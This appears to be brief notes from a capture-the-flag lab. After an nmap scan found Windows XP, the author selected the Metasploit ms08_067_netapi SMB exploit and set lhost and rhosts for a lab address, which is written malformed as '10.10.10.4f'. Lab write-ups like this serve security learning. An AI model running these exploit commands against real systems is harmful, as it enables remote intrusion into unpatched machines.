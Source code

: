 # Notes

Ran nmap and saw there were only three ports opened and the scripts revealed that the operating system is window xp.
Searched google for `window-xp exploit`


```bash
use windows/smb/ms08_067_netapi
set lhost tun0
set rhosts 10.10.10.4f

```